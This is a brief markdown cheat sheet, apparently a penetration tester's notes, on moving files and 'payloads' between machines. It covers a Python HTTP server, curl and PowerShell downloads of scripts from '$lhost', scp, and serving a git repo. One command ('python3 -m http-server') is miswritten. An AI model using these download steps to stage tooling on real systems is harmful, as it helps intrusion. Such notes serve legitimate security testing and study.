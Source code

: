 ## Simple HTTP server
Serve file locally:
- `python3 -m http-server`
Retrieve file on remote host:
- Linux: `curl http://$lhost:8000/file.sh > file.sh`
- WIndows: `iwr -URI http://$lhost:8000/file.ps1 -UseBasicParsing -OutFile file.ps1`
## SCP
- `scp user@host1.local:/file/to/send user@host2.local:/where/to/place`
## Git
Set up [[Research/Git]] repo locally:
- `git init`
- `git add . && git commit -m "commit 1"`
- `cd .git && git --bare update-server-info && cd ..`
- `python3 -m http.server`
Retrieve Payload:
- `git clone http://127.0.0.1:8000/.git/`